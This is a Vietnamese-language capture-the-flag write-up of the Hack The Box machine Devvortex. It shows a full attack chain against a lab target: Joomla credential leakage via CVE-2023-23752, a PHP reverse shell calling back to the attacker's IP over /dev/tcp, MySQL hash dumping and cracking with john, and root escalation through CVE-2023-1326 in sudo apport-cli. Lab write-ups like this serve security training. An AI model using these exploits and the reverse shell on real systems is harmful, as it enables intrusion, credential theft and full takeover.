

Devvortex là một machine đơn giản xoay quanh kỹ thuật áp dụng các lỗ hổng đã có PoC để tải RCE lên Joomla CMS, lấy user password trong mysql và nâng cao đặc quyền với `apport-cli`

## Reconnaissance and Scanning

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thêm *devvortex.htb* vào `/etc/hosts` để phân giải tên miền với IP `10.10.11.242`

`nano /etc/hosts`

`10.10.11.242    devvortex.htb`

Truy cập *http://devvortex.htb* và thử các cách đơn giản để thu thập các thông tin cơ bản của web server này như: robots.txt, index.php, v.v.... Tuy nhiên không có kết quả nào đáng giá, nên tôi sẽ thử tìm kiếm sub domain vì việc cung cấp domain hẳn phải có lý do nào đó.

```python
┌──(root㉿kali)-[/home/neo]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 122ms]
```

Thêm subdomain vào file hosts

`nano /etc/hosts`

`10.10.11.242    devvortex.htb   dev.devvotex.htb`

Truy cập *http://dev.devvotex.htb*. Sử dụng Wappalyzer để check các thành phần cấu tạo nên web này.



## Enumeration

Kiểm tra phiên bản của Joomla


Tìm kiếm các lỗ hổng Joomla phiên bản 4.2.6, tôi tìm thấy [CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752), thử git clone nó về và chạy

```python
┌──(root㉿kali)-[/home/neo]
└─# ruby exploit.rb http://dev.devvortex.htb 
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: ******************
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Vậy là tôi vừa biết được trong server có 2 user là `lewis` và `logan`, vừa có thông tin đăng nhập của `lewis`

Truy cập *http://dev.devvortex.htb/administrator/* để đăng nhập với user `lewis`

Để tạo được RCE, có thể thêm reverse shell vào một trong các file php của template

**System -> Site templates -> Cassiopeia Details and Files**, chọn một trong số các file có sẵn và sửa nội dung thành reverse shell của mình. Tôi chọn shell bên dưới:

`exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'");`

Bật nc: `nc -lnvp 9001`

Lưu file và truy cập đường dẫn đến file vừa thay đổi 


`http://dev.devvortex.htb/templates/cassiopeia/error.php`

```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.11.242] 60634
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ 
```

## User Flag

Quay lại các thông tin ban đầu, tôi có được một thông tin đăng nhập dựa trên mysql. Vậy thì tôi sẽ thử đăng nhập vào mysql trên shell này.

```python
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ mysql -h localhost -u lewis -p                   
<emplates/cassiopeia$ mysql -h localhost -u lewis -p         
Enter password:
....
```python
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | ---------------------------------------------------/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Vậy là tôi tìm được password hash của logan ở đây. Sao chép hash này về máy và sử dụng **john** để crack nó

```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*************    (?)     
1g 0:00:00:08 DONE (2024-03-17 11:30) 0.1239g/s 178.4p/s 178.4c/s 178.4C/s lacoste..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

SSH login

```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# ssh logan@10.10.11.242
logan@10.10.11.242's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 17 Mar 2024 03:29:10 PM UTC

  System load:  0.0               Processes:             197
  Usage of /:   67.7% of 4.76GB   Users logged in:       0
  Memory usage: 24%               IPv4 address for eth0: 10.10.11.242
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Mar 17 09:12:48 2024 from 10.10.14.25
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:~$ ls
final  getroot  new  user.txt
logan@devvortex:~$ 
```

## Privilege Escalation

```python
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

apport là một service trong ubuntu dùng để thu thập các thông tin về hệ thống, chi tiết đọc thêm ở [đây](https://github.com/canonical/apport). Kiểm tra phiên bản của apport-cli này

```python
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
```

Sau khi tìm kiếm các lỗ hổng về apport-cli 2.20.11 trên mạng, tôi tìm được [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC)

Đầu tiên tôi sẽ tạo một file crash

```python
logan@devvortex:~$ sleep 30  &
[1] 5471
logan@devvortex:~$ killall -SIGSEGV sleep
logan@devvortex:~$ cd /var/crash/
[1]+  Segmentation fault      (core dumped) sleep 30  (wd: ~)
(wd now: /var/crash)
logan@devvortex:/var/crash$ ll
total 40
drwxrwxrwt  2 root  root   4096 Mar 17 15:50 ./
drwxr-xr-x 13 root  root   4096 Sep 12  2023 ../
-rw-rw-r--  1 logan logan     0 Mar 17 14:04 some_crash_file.crash
-rw-r-----  1 logan logan 30238 Mar 17 15:50 _usr_bin_sleep.1000.crash
logan@devvortex:/var/crash$ 
```

Chạy tiến trình apport-cli với option `-c` để tạo report

```python
logan@devvortex:/var/crash$ sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash 

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
```

Nhập `!/bin/bash` để lấy shell từ process này

```python
................................ERROR: Cannot update /var/crash/_usr_bin_sleep.1000.crash: [Errno 13] Permission denied: '/var/crash/_usr_bin_sleep.1000.crash'
...........................
root@devvortex:/var/crash#
root@devvortex:/var/crash# id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/var/crash# ls -la /root
total 40
drwx------  6 root root 4096 Mar 17 09:43 .
drwxr-xr-x 19 root root 4096 Oct 26 15:12 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Feb 26 14:30 .cache
drwxr-xr-x  3 root root 4096 Oct 29 16:21 .cleanup
-rw-------  1 root root   38 Mar 17 09:43 .lesshst
drwxr-xr-x  3 root root 4096 Feb 26 14:30 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Mar 17 06:39 root.txt
drwx------  2 root root 4096 Oct 26 15:12 .ssh
root@devvortex:/var/crash# 
```

